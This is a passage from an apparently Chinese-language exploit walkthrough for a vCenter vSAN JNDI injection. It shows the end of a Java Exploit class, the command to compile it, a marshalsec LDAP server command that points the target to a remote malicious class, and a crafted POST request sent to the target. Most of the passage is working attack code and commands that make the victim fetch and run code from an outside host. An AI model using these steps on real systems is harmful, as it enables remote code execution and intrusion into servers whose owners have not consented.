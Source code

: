 ```

    private static void printMessage(final InputStream input) {
        // TODO Auto-generated method stub
        new Thread (new Runnable() {
            @Override
            public void run() {
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try {
                    while ((line=bf.readLine())!=null)
                    {
                        System.out.println(line);
                    }
                }catch (IOException  e){
                    e.printStackTrace();
                }
            }
        }).start();
    }
}

```

编译代码

```
javac Exploit.java

```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb50kA8w4BtQoicayj3K7YnJico4wDvoiaLvGoRBJqBeiaX5iciaRA5Xx2nsgqAx8ag1TWEPtmvzpD7I64hQ/640?wx_fmt=png)

### **0x2 开启 ldap 服务**

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.0.124:9998/#Exploit

```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb50kA8w4BtQoicayj3K7YnJicU3x73OvSicMia3oO1yBiafDTeRzhNtSo41RVrKjr0HbibtYNJbxoISKVvA/640?wx_fmt=png)

### **0x3 发送数据包**

逐个发送数据包与伪造的 LDAP Server 建立 LDAP 链接，最后请求获取恶意 Exploit.class

```
POST /ui/h5-vsan/rest/proxy/service/&vsanProviderUtils_setVsanServiceFactory/setTargetObject HTTP/1.1
Host: 192.168.0.233
Connection: close
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 22

{"methodInput":[null]}

```

